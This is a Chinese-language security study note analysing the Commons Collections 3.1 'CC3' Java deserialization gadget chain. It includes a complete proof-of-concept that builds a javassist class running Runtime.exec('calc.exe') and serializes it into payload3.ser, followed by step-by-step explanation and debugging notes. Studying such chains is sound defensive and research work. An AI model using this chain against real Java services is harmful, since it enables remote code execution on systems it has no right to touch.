

## 简介
CC3 相当于CC1，CC2的结合，环境依赖需要commons collections 3.1，jdk1.7，以及javasisst
对应的利用链如下：
```
ObjectInputStream.readObject()
        AnnotationInvocationHandler.readObject()
            Map(Proxy).entrySet()
                AnnotationInvocationHandler.invoke()
                    LazyMap.get()
                        ChainedTransformer.transform()
                        ConstantTransformer.transform()
                        InstantiateTransformer.transform()
                        newInstance()
                            TrAXFilter#TrAXFilter()
                            TemplatesImpl.newTransformer()
                                     TemplatesImpl.getTransletInstance()
                                     TemplatesImpl.defineTransletClasses
                                     newInstance()
                                        Runtime.exec()
```
### 前置知识

- [CC1 lazymap 分析](https://www.yuque.com/da-labs/secnotes/aobl1w)
- [CC2 TemplatesImpl 分析](https://www.yuque.com/da-labs/secnotes/fbvuia)

在分析CC3之前需要了解一下新出现的两个类
#### TrAXFilter


 在该类的构造方法中，调用了传入参数的newTransformer()方法，看到这个方法有点熟悉了，可以实例化，并且参数可控


 CC2中，就是在`InvokerTransformer.transform()`中通过反射调用`TemplatesImpl.newTransformer()`方法，而CC3中，就可以直接使用`TrAXFilter`来调用`newTransformer()`方法
#### InstantiateTransformer
在该类中实现了Transformer，Serializable接口


在它的transform方法中，实现了当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回


## POC
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;


public class TestCC3 {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
//        cc.writeFile();
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
        try{
            FileOutputStream fileOutputStream = new FileOutputStream("payload3.ser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(handler);

            FileInputStream fileInputStream = new FileInputStream("payload3.ser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();

        }catch (Exception e){
            e.printStackTrace();
        }

    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```
## 分析
### 0x1
与CC2 相同，通过javasisst动态创建一个类，这个类里包括static代码，只要实例化这个类就能执行static里的代码，最后将该类转换成字节码存储在byte[][]这个二维数组中，在CC2 中可以知道这个字节码是被用来存储在`private byte[][] _bytecodes `这个二维数组中被实例化的
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
// cc.writeFile();
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "1");


public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```
### 0x2
第二步同CC1的LazyMap 利用链，不过这里的`Transformer[]`中，ConstantTransformer的构造函数传入的`TrAXFilter.class`，而这个类构造函数接收的`_templates`参数，也就是我们在第一步中构造的`_templates`实例，当调用`(TransformerImpl) templates.newTransformer();`的时候，就会调用我们构造的恶意类的static方法
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(TrAXFilter.class),
    new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
    };
ChainedTransformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = cls.getDeclaredConstructor(Class.class, Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Target.class, lazyMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
handler = (InvocationHandler) constructor.newInstance(Target.class, proxyMap);
```
而怎么才能调用`(TransformerImpl) templates.newTransformer();`呢，这个时候就要用`InstantiateTransformer`了，`InstantiateTransformer`，前置知识中提到了该类实现了Transformer，Serializable接口，当传入的input为class时，可以直接获取其对应的构造函数直接实例化并返回


那么当链式调用的时候，传入input是`TrAXFilter`，在对其进行实例化的时候，我们已经通过`InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})`构造函数，已经将`iParamTypes`，`iArgs`传入，其中`iParamTypes = Templates.class`, `iArgs = javasisst创建的恶意类`，在实例化的时候


### 0x3 
LazyMap get()方法调用了transform()方法，factory参数就是传入的transformerChain，达到了代码2的条件


### 0x4 
 还是P牛那句话：  
> 如果将AnnotationInvocationHandler对象用Proxy进行代理，那么在readObject的时候，只要调用任意方法，就会进入到AnnotationInvocationHandler#invoke方法中，进而触发我们的LazyMap#get。

AnnotationInvocationHandler是调用处理器，outerMap是被代理的对象，只要调用了LazyMap中的任意方法，就会触发AnnotationInvocationHandler中的invoke方法；
而在readObject方法中调用了entrySet()方法，所以触发invoke


这样就基本上达到了执行命令所需要的条件。  

## 调试
this.memberValues参数值为LazyMap，调用了它的entrySet方法，触发到invoke方法


跟进到ChainedTransformer.transform()，对transformers[]数组进行循环；  
第一轮循环，iTransformers[0]参数值为ConstantTransformer，进入它的transform方法，返回TrAXFilter类


第二轮循坏，iTransformers[1]参数值为InstantiateTransformer，TrAXFilter作为参数传入transform方法；


在getConstructor(iParamTypes)中，iParamTypes参数为Templates类，获取到构造函数为TrAXFilter，且在实例化的时候，需要传递Templates类型的参数，iargs则是我们构造的对应的Templates类实例（templates），在实例化过程中，再调用TransformerImpl的newTransformer()； 


方法；


 实例化_class[_transletIndex]，该参数的值就为EvilCat9080096364400()


最后命令执行成功


## 参考链接
[https://xz.aliyun.com/t/10454#toc-1](https://xz.aliyun.com/t/10454#toc-1)


